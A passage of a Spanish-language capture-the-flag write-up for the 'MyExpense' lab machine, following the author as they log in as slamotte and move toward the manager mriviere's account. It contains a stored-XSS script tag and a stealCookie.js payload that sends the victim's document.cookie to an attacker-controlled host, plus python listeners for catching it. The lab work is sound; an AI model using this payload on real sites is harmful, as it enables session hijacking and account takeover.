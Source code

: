 Iniciamos un servicio *http* con el puerto 80 en la carpeta en la que tenemos el archivo. Yo lo hago con python desde consola de la siguiente manera:
```py
python -m http.server 80
```

En un momento dado, vemos que hemos recibido una petición *GET* del recurso ```/pwned.js```. Si recargamos la página vemos que el usuario **slamotte** está activo y nos logueamos con las credenciales que teníamos. 

![](/image/vh-writeup-myexpense/slamotte.png)

Una vez como slamotte, podemos ver una especie de chat donde varios usuarios han escrito mensajes. 

Si nos vamos al apartado del perfil, podemos ver quién es nuestro mánager: Manon Riviere (mriviere)

![](/image/vh-writeup-myexpense/whoisManager.png)

Si alguien tiene que tramitar nuestro pago, por lógica tiene que ser él. Por lo tanto tenemos que ver la forma de que nos acepte el pago.

<a id="mriviere"></a>
### Nos convertimos en mriviere

Si intentamos inyectar html en el chat, podremos observar que se produce un *XSS*. La idea aquí será robar las cookie de sesión de la persona que vea el mensaje y probar suerte de que mriviere caiga en nuestra trampa.

Para ello referenciaré un script en *js* llamado ```stealCookie.js```:

```html
<script src="http://<mi ip>/stealCookie.js"></script>
```

![](/image/vh-writeup-myexpense/messageStealCookie.png)


stealCookie.js:
```js
var request = new XMLHttpRequest();
request.open('GET', 'http://<mi ip>:4646/cookie=' + document.cookie);
request.send();
```

En este código, se tramita una petición *GET* a nuestra ip con un parámetro llamado cookie donde irá la cookie de la víctima que ejecute este *js*.

> Como se puede observar, esta vez uso el puerto 4646. Esto se debe a que el usuario administrador que visita continuamente a la página ```admin/admin.php``` que nos activó la cuenta de slamotte está continuamente haciendo una petición a nuestro puerto 80. Así que por simplificación usaremos otro puerto.

Iniciamos un servicio *http* con el puerto 4646 en la carpeta en la que tenemos el archivo y esperamos las respuestas:
```py
python -m http.server 4646
```
